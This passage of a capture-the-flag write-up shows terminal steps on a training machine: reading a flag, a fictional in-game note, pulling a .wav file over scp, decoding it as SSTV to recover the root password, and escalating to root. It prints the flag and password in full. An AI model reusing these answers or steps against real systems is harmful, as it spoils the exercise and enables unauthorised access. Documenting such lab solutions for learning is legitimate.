uid=1000(chad-cherry) gid=1000(chad-cherry) groups=1000(chad-cherry),4(adm),24(cdrom),30(dip),46(plugdev)
chad-cherry@nanocherryctf:~$ pwd
/home/chad-cherry
chad-cherry@nanocherryctf:~$ ls
Hello.txt  chad-flag.txt  rootPassword.wav
chad-cherry@nanocherryctf:~$ cat chad-flag.txt
THM{P4SS3S_C0LL3CT3D}
chad-cherry@nanocherryctf:~$ cat Hello.txt
Hello there.

If you're reading this and you aren't me, then it means either something drastic has happened to me and my associates have now accessed my account.

Or I've been hacked.

Either way, I have to confess to my misdeeds.

My grand plan, as it unfolds, has always been to develop a "cloud solution" (aka a worm) to infect every machine on the planet and uninstall every version of vim avaliable.

Vi, vim, neo vim, doesn't matter. I hate them all.

Everytime I try to use it, I get trapped. Can't leave my prison of text.

It wasn't until I saw the light when Sam showed me Nano. All of the commands are displayed at the bottom of the screen! Just as they should be!

But in order to realize this dream, I've had to lie. To everyone.

You see, I need a programmer to make the worm for me. Programmers cost money. And that's where Molly and Bob come in.

Molly is... Something else. She's a talented blackmailer and web designer. I know she likes me, but I've been using her. 

Truth is, I'm afraid of her. I'm afraid if she realizes that I've been manipulating her, she'll turn my life upside down. 

Even though I threaten, I know I can fire her for real. I'm just so... insecure...

As far as that programmer goes, I told the team I found one. I guess I did, I even let him access my computer for a bit. I hope he didn't put any backdoors or anything...

Maybe he's the one Molly was talking about, goes under that alias.

Anyways, to whomever has access to this device now, I have one final request: gain root access and wipe this machine off the face of the earth. I'm too ashamed of how I've treated everyone to continue, especially Sam... he's too good of a friend.

You can find the password to the root account in the .wav file. Whomever you are, if you're a smart enough hacker, you'll figure it out.

Good luck and as that one guy keeps saying: don't be a script kiddie.

- Chad Cherry

chad-cherry@nanocherryctf:~$ 
```

> **File Transfer & Analysis Phase**
> 

```bash
chad-cherry@nanocherryctf:~$ file rootPassword.wav
rootPassword.wav: RIFF (little-endian) data, WAVE audio, Microsoft PCM, 16 bit, mono 44100 Hz
chad-cherry@nanocherryctf:~$ 
```

`scp -o MACs=hmac-sha2-256 chad-cherry@cherryontop.thm:rootPassword.wav /root/Desktop/CyberLearningFramework/nanocherryctf/rootPassword.wav`

```bash
chad-cherry@cherryontop.thm's password: 
rootPassword.wav
```


`audacity rootPassword.wav`



> **Privilege Escalation with SSTV Decoding**
> 

`sstv -d rootPassword.wav -o rootPassword.png`

```bash
[sstv] Searching for calibration header... Found!    
[sstv] Detected SSTV mode Robot 36
[sstv] Decoding image...               [####################################################################################################]  99%
[sstv] Reached end of audio whilst decoding.
[sstv] Drawing image data...
[sstv] ...Done!
```


**For script source:**

[https://github.com/colaclanth/sstv](https://github.com/colaclanth/sstv)

```bash
chad-cherry@nanocherryctf:~$ su root
Password: NanoWillNeverBeOvertaken
root@nanocherryctf:/home/chad-cherry# whoami
root
root@nanocherryctf:/home/chad-cherry# id
uid=0(root) gid=0(root) groups=0(root)
root@nanocherryctf:/home/chad-cherry# pwd
/home/chad-cherry
```

# Appendix

## SSTV Decoding

<aside>
💡

SSTV (Slow Scan Television) decoding is the process of receiving and interpreting image data transmitted over radio frequencies, often used by amateur (ham) radio operators. Unlike standard TV broadcasts, which transmit many frames per second for moving images, SSTV transmits a single still image at a much slower rate, usually over the shortwave, HF, or VHF bands.

</aside>